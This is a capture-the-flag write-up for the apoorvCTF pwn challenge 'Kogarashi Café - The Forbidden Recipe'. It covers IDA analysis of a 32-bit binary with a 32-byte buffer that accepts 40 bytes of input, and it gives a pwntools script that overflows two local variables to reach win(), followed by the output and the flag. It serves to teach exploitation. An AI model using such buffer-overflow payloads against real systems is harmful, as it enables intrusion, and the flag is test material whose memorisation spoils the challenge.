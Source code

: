 ```yaml
---
date: 2025-03-07 21:15:53 +02:00
categories: [apoorvCTF, Pwn]
tags: [Pwn, CTF, apoorvCTF]
---
```


This is a writeup of the Pwn challenge Kogarashi Café - The Forbidden Recipe by [apoorvCTF](https://apoorvctf.iiitkottayam.ac.in/) 
#### Points: 173
# Premise
The final test. One last order, one last chance. Choose carefully—the café remembers.

`nc chals1.apoorvctf.xyz 3002`
## Challenge files:

[forbidden_recipe](https://github.com/CSYClubIIITK/CTF-Writeups/blob/main/ApoorvCTF-25-Writeups/BinExp/Kogarashi%20Caf%C3%A9%20-%20The%20Forbidden%20Recipe/files/forbidden_recipe)

# Observations
Looking at the challenge file, we have a single executable, we as per usual start by running file and checksec against it:

![file_checksec](/assets/images/apoorvCTF/cafe3/file_checksec.png)

As seen previously, we're working with a 32 bit executable with few settings for protection.

We again use [Detect it Easy (DIE)](https://github.com/horsicq/Detect-It-Easy) to see what lang the program is written in.

![DIE](/assets/images/apoorvCTF/cafe3/DIE.png)

As we can see, the program looks like it was made in C/C++. Our next step from here is to load the program into [IDA](https://hex-rays.com/ida-free)

We opening the program, and observe the following functions since they look interesting
![IDA functions](/assets/images/apoorvCTF/cafe3/IDA_functions.png)

We can start off by checking main(), as we can see it doesnt do much, other than calling vuln() so we proceed to it.
![main functions](/assets/images/apoorvCTF/cafe3/IDA_main.png)

Here we see the program prints a welcome string, and reads some input from the user, there are also 2 additional varialbes that are checked, and if their contents match `0xC0FF33` and `0xDECAFBAD` we get a call to the win() function.
![order_coffee function](/assets/images/apoorvCTF/cafe3/IDA_vuln.png)

The user input variable has a size of 32 characters, but the read function reads 40 characters, we know we need to overwrite 2 variables, and what values they need to be, so we'll keep this in mind going forwards

Here in the win function, the execution flow is quite straightforward, it opens the flag.txt file and prints out its contents
![brew_coffee function](/assets/images/apoorvCTF/cafe3/IDA_win.png)

# Solution
With all of our findings, I've developed the following python script, using [pwntools](https://github.com/Gallopsled/pwntools)

```python
from pwn import *

padding = b"A" * 32
coffee = p32(0x00C0FF33)
decafbad = p32(0xDECAFBAD)

#Craft payload string, we need to add the payload first, then the two variables in correct order
payload = padding + decafbad + coffee

#run program
#target = process('./forbidden_recipe')
target = remote('chals1.apoorvctf.xyz', 3002)

target.recvline()
target.recvline()
target.sendline(payload)

target.interactive()
```

Running this script gives us the following output:
```bash
[+] Starting local process './forbidden_recipe': pid 1234567
[*] Switching to interactive mode
[*] Process './forbidden_recipe' stopped with exit code 0 (pid 1234567)
Barista: "Ah... I knew you'd figure it out. One moment."
Barista: "Ah... I see you've returned for the special blend."
apoorvctf{d3caf_is_bad_f0r_0verfl0ws}

[*] Got EOF while reading in interactive
$
```

Which gives us the flag:
> apoorvctf{d3caf_is_bad_f0r_0verfl0ws}
{: .prompt-tip }


# Tools and sources used:
- [IDA Free](https://hex-rays.com/ida-free)
- [pwntools](https://github.com/Gallopsled/pwntools)
- [Detect It Easy](https://github.com/horsicq/Detect-It-Easy)
- [checksec](https://github.com/slimm609/checksec)

